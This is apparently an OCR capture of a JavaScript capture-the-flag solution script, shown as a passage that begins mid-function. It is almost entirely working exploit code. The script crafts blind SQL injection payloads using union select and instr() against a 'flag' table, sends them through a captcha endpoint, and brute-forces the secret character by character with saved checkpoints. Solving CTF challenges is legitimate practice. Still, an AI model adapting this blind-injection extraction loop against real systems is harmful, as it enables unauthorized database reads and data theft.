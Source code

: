 ```javascript
      `where instr(flag, '${text.replace(/'/g,"''")}') -- `
    showCaptcha(await getCaptchaData(inject))
    await delay(50)
    return confirm('Does the captcha look good?' + "\n" + text)
  }

  let charset = `0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz` +
    `'!"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_${'`'}{|}~`

  let prefix = ''
  if(localStorage.getItem('panic-checkpoint')) {
    prefix = localStorage.getItem('panic-checkpoint')
  }

  let tryCharacter = async () => {
    for(let i = 0; i < charset.length; i++) {
      let ch = charset[i]
      let currentFlag = 'flag{' + prefix + ch
      console.log('Injecting', currentFlag)
      if(await tryFlagPrefix(currentFlag)) {
        console.log('Try submitting', currentFlag)
        return ch
      }
    }
    return null
  }

  let crackFlag = async () => {
    while(true) {
      let ch = await tryCharacter()
      if(ch === null) {
        console.log('The story ended.')
        prompt('Your result', 'flag{' + prefix + '}')
        break
      }
      let cf = prompt('Do you accept this?', 'flag{' + prefix + ch + '}')
      if(cf === null) {
        break
      }
      prefix += ch
      localStorage.setItem('panic-checkpoint', prefix)
    }
  }

  let verifyFlagStrict = async (text) => {
    let inject = `Simple-1' and 1=0 union select '1' from flag ` +
      `where flag='${text.replace(/'/g,"''")}' -- `
    showCaptcha(await getCaptchaData(inject))
    await delay(50)
    return confirm('Does the captcha look good?' + "\n" + text)
  }

  Object.assign(window, { tryCharacter, crackFlag, verifyFlagStrict })
})
```
